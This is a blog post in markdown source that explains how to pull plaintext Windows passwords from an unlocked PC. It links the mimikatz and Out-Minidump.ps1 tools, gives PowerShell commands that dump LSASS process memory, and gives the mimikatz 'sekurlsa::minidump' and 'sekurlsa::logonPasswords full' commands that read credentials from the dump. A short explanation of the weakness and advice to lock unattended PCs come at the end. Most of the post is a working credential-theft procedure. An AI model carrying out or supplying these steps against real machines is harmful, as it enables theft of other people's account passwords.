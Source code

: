 ```yaml
---
layout: post
title: Uncover user password from unlocked Windows PC with less than 5 minutes
description: A simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
tags: [Windows, Password, Vulnerability]
---
```


I found [this article](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes) mentioning about the existing vulnerability in Windows OS where you can get the plaintext view of your passwords on any unlocked Windows PC. So, I tried it on my Windows 10 PC and found that the vulnerability is still exist. The method used here is not new at all, and anyone can perform this hacking on any unlocked Windows PC providing that they know how to use the following tools.

In summary, here is what you need to do:



### Tools you need

- [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) - just get the binary package, e.g. `mimikatz_trunk.zip`
- [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) - PowerShell script

Download all the tools above first.



### 1. Perform memory dump using the PowerShell script

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, I will use the PowerShell script - `Out-Minidump.ps1`. The flow of cmdlet will look like this:

{% include image.html src="assets/images/1lQnyhZ.png" caption="PowerShell cmdlet" %}

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### 2. View the passwords using the mimikatz terminal program

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time I need to use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

{% include image.html src="assets/images/OPA0g0w.png" caption="mimikatz MINIDUMP" %}

Switching to MINIDUMP file, so now I can view the passwords. Now, I will run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

Voila! There, I can see my actual Microsoft Account username and password in _a plaintext view_.

{% include image.html src="assets/images/nWPZUIR.jpg" caption="mimikatz logonPasswords" %}



### Explanation of the vulnerability

The fact is that the password is encrypted but it's _useless_ as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). So, the Windows stores these encrypted user passwords in memory without using any of one-way hash algorithm which is decryptable using **LsaUnprotectMemory** function to a plain text.

**It is RECOMMENDED to always LOCK your Windows PC when you are away, especially when you are in office or public place. This hacking can simply be done less than five minutes!**